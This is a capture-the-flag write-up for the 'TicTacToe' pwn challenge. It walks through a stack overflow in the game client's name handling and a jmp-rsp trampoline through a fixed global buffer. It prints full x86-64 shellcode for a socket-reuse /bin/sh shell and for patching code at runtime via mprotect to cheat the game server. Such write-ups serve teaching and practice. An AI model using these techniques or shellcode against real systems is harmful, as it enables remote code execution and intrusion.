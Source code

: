 ### TicTacToe #pwn

#### inputs 

- `tictactoe ` - ELF 64-bit LSB executable, x86-64 (game frontend) 
- `server.py` - server code (game backend)

#### recon

After connecting to provided host we can see implementation of tic tac toe game:

```console
$ nc pwn-tictactoe.ctfz.one 8889
Welcome to tictactoe game! Please, enter your name: elkle%po
                                                                     
+---+---+---+    Session: emdBER4MYfNbqYJZzxyn9StjbFvP1OdS           
|   |   |   |                                                        
| X |   |   |     Player: elkle%po                                        
|  1|  2|  3|                                                        
|---+---+---|      Level: 1/100                                      
|   |   |   |                                                        
|   |   |   |      Rules: You play with 0s. Now it's your turn.      
|  4|  5|  6|             Enter number 1-9 to make your move.        
|---+---+---|             In order to get the flag you need to win   
|   |   |   |             100 times in a row, buy your enemy is a    
|   |   |   |             really smart AI. Good luck!                
|  7|  8|  9|                                                        
+---+---+---+      Enter your move (1-9):
```

So we have to win 100 games to get the flag. After some manual tries I was not able to win a single game (no surprise here - it's `pwn` task :) ).

Next, I jumped to server code analysis and reverse engineering (symbols were not stripped so it was quite easy). That's how, in simplified way, the game infrastructure works:

```
+-------------------------------player------+
|                                           |
+-------------------------------------------+
  |                    ^
  |                    | board state
  | human_move         | [next/win/lose/flag]
  |                    |
  v                    |
+-------------------------------tictactoe---+
| board_state                               |
+-------------------------------------------+
  |                    ^
  | session_x_id       | [next/win/lose/flag]
  | human move         | board state
  | computer move      |
  v                    |
+-------------------------------server.py---+
| +-session_x----+                          |
| | games won    |                          |
| | board state  |                          |
| +--------------+                          |
+-------------------------------------------+

```

`tictactoe` gets human move and computes computer move basing on board state after human move.

Both human move and computer move are sent to `server.py` (most probably on different machine) which is responsible for moves validation, win/lose decision and informing `tictactoe` that user won 100 games and the flag is available.

When flag availability is signaled, `tictactoe` is sending "get flag" request to `server.py` which sends flag back if 100 games were won (for simplicity - this call is omitted on above diagram).

It is impossible for user to communicate to `server.py` directly so we have to exploit `tictactoe`.

#### tictactoe exploitation

 ```console
$ checksec --file ./tictactoe
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
 ```

Ok, so there are literally no exploit mitigations in `tictactoe`, that would make things much easier.

My initial idea was to get remote shell and execute my "malicious" version of `tictactoe` written in python or just simply redirect crafted input to `nc`.

There is a pretty big buffer overflow in `get_name()` function:

```c
int get_name()
{
    ...
      char tmp_name[16];
      ...
      // recv up to 2048 bytes from socket and store them in `tmp_name`
    recv_session_count = recv_all(psock, tmp_name, 2048);
    ...
    // `name` is a global variable at fixed address.
    strcpy(name, tmp_name);
    ...
}
```

We can control function return address, but there is no obvious "instant win" location. 

We're not able to leak any memory (at this point) so there is no option to leak `libc` address and use its code for ROP.

But there is RWX stack. We may provide 2048 bytes of shellcode, but it is required to find an option to redirect execution to it. Unfortunately, due to ASLR, it is not possible (without lucky guess) to set return address to `tmp_name`. 

We have to find the gadget like: `push rsp; ret`, `jmp rsp` or something similar, but unfortunately `tictactoe` does not contain such gadgets.

Because `tictactoe` is not PIE executable, all global variables are always at fixed address and all RW sections are actually RWX sections during runtime. 

Looking at `get_name()` code we can see an opportunity - `tmp_name` is copied to global variable `name`. The idea to get remote code execution is to send following payload:

 `asm('jmp rsp') + padding + 'name' address + shellcode`

Which will cause `jump rsp` opcode to be copied under `name` address and function return address will be overwritten with `name` address. During `get_name()` stack unwinding, `ret` function will set `rip` to `name` address, executing `jump rsp` afterwards and `rip` will point to executable stack with our shellcode.

Using this method I was able to execute shellcode:

```assembly
mov r13, [0x0405720] # `psock` address
mov rdi, r13
mov rsi, 0
mov rax, 33
syscall     # dup2(psock, stdin)

mov rdi, r13
mov rsi, 1
mov rax, 33
syscall     # dup2(psock, stdout)

mov rdi, r13
mov rsi, 2
mov rax, 33
syscall     # dup2(psock, stderr)

mov rdi, r13
mov rax, 3
syscall     # close(psock)

xor     rdx, rdx
mov     rbx, 0x68732f6e69622f2f
shr     rbx, 0x8
push    rbx
mov     rdi, rsp
push    rax
push    rdi
mov     rsi, rsp
mov     al, 0x3b
syscall     # execve("/bin/sh", ["/bin/sh"], NULL)
```

Success, I had remote shell!  But...

Unfortunately, the shell had extremely limited functionalities and I had no idea on how to execute my python code there or transfer and execute other binaries. There was no `python`, `nc`, `base64` or any other "standard" tools. I know that it was possible for some bash magicians, but I'm not one of them :(

I decided to take another approach, Let's look at `process_game_situation()` function:

```c
int __cdecl process_game_situation(char *board, int *comp_move, int *human_move)
{
    ...
    *comp_move = get_computer_move(board);
    ...
    *human_move = get_human_move(board);
    ...
}
```

What if we change its code to look as follows:

```c
int __cdecl process_game_situation(char *board, int *comp_move, int *human_move)
{
    ...
    *comp_move = get_human_move(board); // get_computer_move -> get_human_move
    ...
    *human_move = get_human_move(board);
    ...
}
```

We would be able to provide not only our moves, but also computer moves. I used remote code execution payload described earlier with following shellcode:

```assembly
mov rdi, 0x400000
mov rsi, 0x5000
mov rdx, 0x7
mov rax, 10
syscall     # mprotect(0x400000, 0x5000, 0x7[RWX])

mov BYTE PTR [0x401c86], 0xe8   # change:
mov BYTE PTR [0x401c87], 0x9f   # 0x401C86: call get_computer_move
mov BYTE PTR [0x401c88], 0xfd   # to
mov BYTE PTR [0x401c89], 0xff   # 0x401C86: call get_human_move
mov BYTE PTR [0x401c8a], 0xff   # offset calculation done manually

push 0x0401D32
ret         # return to process_game()
```

Worked as expected, I was able to provide both mine and computer moves. Winning 100 games witch such a cheat was pretty easy!

> ctfzone{h3r3_w3_g0_4g41n_t1c_t4c_t03_1z_4_n1z3_g4m3}

[exploit.py](./exploit.py) contains code for both remote shell (`gimme_shell()`) and flag exploit (`gimme_flag()`).
